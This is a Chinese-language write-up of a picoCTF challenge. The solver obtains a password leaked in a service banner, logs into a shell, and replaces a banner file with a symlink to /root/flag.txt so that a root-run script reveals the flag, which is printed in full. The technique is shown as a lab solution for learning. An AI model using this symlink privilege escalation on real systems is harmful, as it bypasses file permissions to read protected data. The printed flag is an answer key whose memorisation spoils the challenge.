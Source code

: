 # Description
```text
Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 58851. Use the leaked information to get to the server. To connect to the running application use nc tethys.picoctf.net 51029. From the above information abuse the machine and find the flag in the /root directory.
```

# 解題
先用 `netcat` 連線到 `tethys.picoctf.net 58851`
```bash
└─$ nc tethys.picoctf.net 58851
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

接下來連線到 `tethys.picoctf.net 51029` 會連續問幾題問題，依序回答後即可進到 Shell
```bash
└─$ nc tethys.picoctf.net 51029
*************************************
**************WELCOME****************
*************************************
# 這裡的密碼推測是剛開始連線時取得的 My_Passw@rd_@1234
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
JOHN
player@challenge:~$
```
首先使用 `ls` 發現底下有兩個檔案
```bash
player@challenge:~$ ls
ls
banner  text
```
根據題目，得知 flag 在 `/root` 目錄下，故先去看 `/root`，發現底下有兩個檔案
```bash
player@challenge:~$ cd /root
cd /root
player@challenge:/root$ ls
ls
flag.txt  script.py
```
使用 `cat` 看兩個檔案的內容
```bash
# 發現對於 flag.txt 沒權限
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
```
接者是 script.py，可以發現以下這段程式碼負責開啟 `/home/player/banner`，並在剛連線時顯示這個 banner。可以利用這點，使用 `ln` 為 `/root/flag.txt` 建立名為 banner 的符號連結，以讓 script.py 可以用這個連結，以 flag.txt 內容取代原本的 banner
```python
with open("/home/player/banner", "r") as f:
```
首先移除 /home/player/banner
```bash
player@challenge:~$ rm banner
```
接著建立符號連結後，中斷連線並重新連線，就可以看到 flag
```bash
player@challenge:~$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
player@challenge:~$ ^C
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads]
└─$ nc tethys.picoctf.net 51029
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}

what is the password?
```

# 本題 flag
<!-- flag -->
所以本題 FLAG 
```text
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
```
